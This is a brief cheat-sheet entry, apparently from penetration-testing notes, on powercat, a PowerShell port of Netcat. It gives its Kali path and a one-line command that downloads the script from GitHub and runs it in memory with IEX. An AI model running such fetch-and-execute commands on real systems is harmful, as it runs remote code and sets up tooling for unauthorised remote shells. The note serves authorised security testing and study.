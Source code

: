 Netcat: The powershell version.
/usr/share/windows-resources/powercat
```PowerShell
. .\powercat.ps1 # Load The Function From URL:
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```